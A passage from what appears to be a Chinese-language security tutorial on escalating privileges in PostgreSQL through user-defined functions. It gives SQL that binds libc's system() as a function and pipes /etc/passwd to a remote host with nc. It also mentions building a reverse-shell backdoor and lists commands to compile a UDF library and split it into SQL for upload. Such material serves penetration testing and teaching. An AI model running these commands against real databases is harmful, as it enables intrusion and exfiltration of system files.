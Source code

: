 - - -

# [0x06 PostgreSQL 提权](#toc_0x06-postgresql)

## [利用 UDF 命令执行](#toc_udf)

在 8.2 以前，postgresql 不验证 magic block, 可以直接调用本地的 libc.so

```bash
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```

8.2 以上版本，需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的  
\- [https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql)

可以参考 [No-Github/postgresql\_udf\_help](https://github.com/No-Github/postgresql_udf_help)

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

[![4.png](assets/1710208076-fcc43973d815e63643341c9e3475b872.png)](https://storage.tttang.com/media/attachment/2022/04/13/41b6682f-0562-4212-b241-54000ddae2d8.png)
